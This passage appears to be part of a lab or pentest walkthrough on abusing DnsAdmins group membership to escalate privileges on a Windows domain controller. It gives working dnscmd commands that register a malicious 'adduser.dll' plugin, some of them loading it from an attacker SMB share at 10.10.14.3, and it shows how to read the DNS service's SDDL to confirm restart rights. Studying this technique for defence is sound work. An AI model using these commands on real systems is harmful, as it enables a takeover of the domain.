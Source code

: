 ### SMB Share Method
```cmd
# Host on SMB share accessible by Domain Controller machine account
copy adduser.dll \\fileserver\share\adduser.dll
```

## 🔐 DNS Service Configuration

### Test Non-Privileged Access
```cmd
# Attempt DLL loading as normal user (should fail)
dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll

# Expected failure:
DNS Server failed to reset registry property.
    Status = 5 (0x00000005)
Command failed: ERROR_ACCESS_DENIED
```

### Load DLL as DnsAdmins Member
```cmd
# Configure custom DLL path (requires full path)
dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll

# Expected success:
Registry property serverlevelplugindll successfully reset.
Command completed successfully.
```

### Alternative UNC Path
```cmd
# Use network share path
dnscmd.exe /config /serverlevelplugindll \\10.10.14.3\share\adduser.dll
```

## 🔄 DNS Service Manipulation

### Check Service Permissions

#### Find User SID
```cmd
# Get current user SID
wmic useraccount where name="netadm" get sid

# Expected output:
SID
S-1-5-21-669053619-2741956077-1013132368-1109
```

#### Analyze Service Permissions
```cmd
# Check DNS service permissions using SDDL
sc.exe sdshow DNS

# Look for RPWP permissions (SERVICE_START and SERVICE_STOP):
D:(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SO)(A;;RPWP;;;S-1-5-21-669053619-2741956077-1013132368-1109)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)
```
